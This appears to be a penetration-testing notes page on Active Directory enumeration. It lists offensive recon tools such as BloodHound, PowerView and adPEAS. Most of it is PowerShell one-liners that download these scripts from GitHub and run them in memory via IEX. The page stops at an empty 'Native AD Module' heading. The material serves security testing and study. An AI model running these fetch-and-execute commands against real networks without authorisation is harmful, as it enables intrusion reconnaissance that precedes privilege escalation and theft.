 # Active Directory Enumeration

{% hint style="info" %}
This page is a long term work in progress page and will be subject to multiple changes overtime.
{% endhint %}

{% hint style="info" %}
Powerview (Dev) build is used heavily for the following page.
{% endhint %}

## Enumeration Tools

* **adPEAS:** [https://github.com/61106960/adPEAS](https://github.com/61106960/adPEAS)
* **BloodHound:** [https://github.com/BloodHoundAD/BloodHound](https://github.com/BloodHoundAD/BloodHound)
* **Invoke-ADEnum:** [https://github.com/Leo4j/Invoke-ADEnum](https://github.com/Leo4j/Invoke-ADEnum)
* **PowerUpSQL:** [https://github.com/NetSPI/PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)
* **Powerview:** [https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
* **Pywerview:** [https://github.com/the-useless-one/pywerview](https://github.com/the-useless-one/pywerview)

```powershell
# adPEAS
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS.ps1);Invoke-adPEAS
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS-Light.ps1);Invoke-adPEAS

# BloodHound
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1);Invoke-Bloodhound -CollectionMethod All,GPOLocalGroup
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1);Invoke-Bloodhound -CollectionMethod All,GPOLocalGroup -Loop -Loopduration 06:00:00 -LoopInterval 00:15:00

# Invoke-ADEnum
IEX(IWR -UseBasicParsing https://raw.githubusercontent.com/Leo4j/Invoke-ADEnum/main/Invoke-ADEnum.ps1);Invoke-ADEnum

# PowerUpSQL
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/NetSPI/PowerUpSQL/master/PowerUpSQL.ps1")

# PowerView
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1)
```

## Native AD Module
